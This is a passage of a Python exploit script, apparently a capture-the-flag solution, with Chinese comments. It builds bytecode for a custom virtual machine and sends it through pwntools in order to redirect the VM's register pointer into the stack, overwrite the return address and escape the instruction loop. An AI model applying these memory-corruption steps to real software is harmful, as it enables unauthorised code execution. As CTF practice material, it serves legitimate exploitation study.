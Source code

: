 ```py
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%U'), 0, 1,			# push 1
	u64_s('%A'), 0, 0,			# add
	u64_s('%Y'), 0, 0x5,			# pop reg(5)
	# 比较循环变量是否大于 250, 用户可以输入 500 个 4 字节整数
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%U'), 0, 1024 + 250,	# push 1024 + 250
	u64_s('%r'), 0, 0,			# cmp_greater
	u64_s('%S'), 0, ret_addr + 33,		# jnz ret_addr + 33
	# 伪代码
	# for(int i = 1024; i < 1024 + 250; i ++) {
	#     store_sth(i, STDIN);
	# }
	
	# 114514 作为正常运行的分隔符，提醒客户端当前指令
	# 客户端与服务端相互对账
	u64_s('%U'), 0, 114514,			# push 114514
	u64_s('%y'), 0, 0,			# pop printf()
	u64_s('%a'), 0, 0,			# push STDIN
	
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 44)		size: __int96, 12 Bytes
	# 修改 Memory 中寄存器地址 register_addr 到 stack，这样修改寄存器就可以修改stack中的值
	# 修改 *(unsigned int*)register_addr
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%U'), 0, -1004,			# push -1004		size: __int32, 4 Bytes
	u64_s('%#X'), 0, 0,			# store_sth0
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%U'), 0, -1003,			# push -1003		size: __int32, 4 Bytes
	u64_s('%#X'), 0, 0,			# store_sth0
	
	# 修改 *(unsigned int*)ret_addr 为新的栈地址
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 0,			# pop reg(0)
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 1,			# pop reg(1)
	
	# 修改 stack + 1 
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 2,			# pop reg(2)
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 3,			# pop reg(3)
	
	# 修改 stack + 2
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 4,			# pop reg(4)
	u64_s('%a'), 0, 0,			# push STDIN
	u64_s('%Y'), 0, 5,			# pop reg(5)
	
	# 修改 CodeSize 为 0，这样就能成功跳出 func_R_calla 指令轮询
	u64_s('%U'), 0, 0,			# push 1		size: __int32, 4 Bytes
	u64_s('%U'), 0, -1006,			# push -1006		size: __int32, 4 Bytes
	u64_s('%#X'), 0, 0,			# store_sth0
	
]
print(len(VM_shellcode_1))
VM_shellcode_1 += [ 0 ] * (300 - len(VM_shellcode_1))

for i in VM_shellcode_1:
	p.sendline(str(i).encode())

p.recvuntil(b'format:')
data = p.recvuntil(b'::format').decode().strip('::format').split('::')

```